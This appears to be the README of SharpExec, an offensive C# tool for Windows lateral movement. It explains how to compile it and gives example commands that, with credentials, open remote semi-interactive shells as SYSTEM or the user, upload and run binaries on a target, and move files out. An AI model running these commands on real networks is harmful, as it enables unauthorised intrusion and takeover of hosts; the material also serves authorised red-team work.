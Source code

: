 # SharpExec

Description
============

SharpExec is an offensive security C# tool designed to aid with lateral movement. 

It currently includes:

-WMIExec - Semi-Interactive shell that runs as the user. Best described as a less mature version of Impacket's wmiexec.py tool.

-SMBExec - Semi-Interactive shell that runs as NT Authority\System.  Best described as a less mature version of Impacket's smbexec.py tool.

-PSExec (like functionality) - Gives the operator the ability to execute remote commands as NT Authority\System or upload a file and execute it with or without arguments as NT Authority\System.

-WMI - Gives the operator the ability to execute remote commands as the user or upload a file and execute it with or without arguments as the user.

In the Future I would like to add:

Lateral movement through DCOM
Pass the hash functionality

Contact at:
- Twitter: @anthemtotheego

Quick blog:

https://blog.redxorblue.com/2019/04/sharpexec-lateral-movement-with-your.html

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, all the awesome code out there (and there is a lot) can be taken/modified to create your own custom tools.**

![Alt text](/sharpexec.PNG?raw=true "SharpExec")

Setup - Quick and Dirty
==============================

**Note: I used Windows 10, Visual Studio 2017 - mileage may vary**

1. Download SharpExec tool and open up SharpExec.sln  

2. Open up SharpExec.sln in Visual Studio (make sure to compile for correct architecture) - Should see drop down with Any CPU > Click on it and open Configuration Manager > under platform change to desired architecture and select ok.

3. Inside visual studio, right click References on the righthand side, choose Add Reference, then under Assemblies, search for System.Management, check the box and click OK.

4. Compile, make sure for the correct architecture (x64 or x86), drop binary on computer or pull into memory and have fun.

Examples 
========

Note - All modules require Administrative rights on the target systems
Note - If the user who runs SharpExec has administrative rights to the target system, username/password/domain options on not required.

PSExec Module:

Uploads file from User1's desktop to C:\ on remote system and executes it as NT Authority\System

```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```

Runs command via cmd.exe on target system as NT Authority\System

```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\Windows\System32\cmd.exe -c="My Args"```

WMI Module:

Uploads file from User1's desktop to C:\ on remote system and executes it as TargetUser

```SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```

Runs command via cmd.exe on target system as TargetUser

```SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\Windows\System32\cmd.exe -c="My Args"```

WMIExec Module:

Starts semi-interactive shell on remote system as TargetUser

```SharpExec.exe -m=wmiexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain```

While shell is running

<pre>
put                  Upload file from local directory to current shell directory, put fullLocalPath\\File.txt File.txt
get                  Download file from current shell directory to local directory, get File.txt fullLocalPath\\File.txt
help                 Show help menu
exit                 exit shell
</pre>

SMBExec Module:

Starts semi-interactive shell on remote system as NT Authority\System

```SharpExec.exe -m=smbexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain```

While semi-interactive shell is running

<pre>
put                  Upload file from local directory to current shell directory, put fullPath\\File.txt fullPath\\File.txt
get                  Download file from current shell directory to local directory, get fullPath\\File.txt fullPath\\File.txt
help                 Show help menu
exit                 exit shell
</pre>

Acknowledgements
============

I tried to mimic Impacket's wmiexec.py and smbexec.py as much as possible.  This is an awesome project and if you haven't ever used their tools, I highly suggest checking them out!

SecureAuthCorp - Impacket tools - https://github.com/SecureAuthCorp/impacket
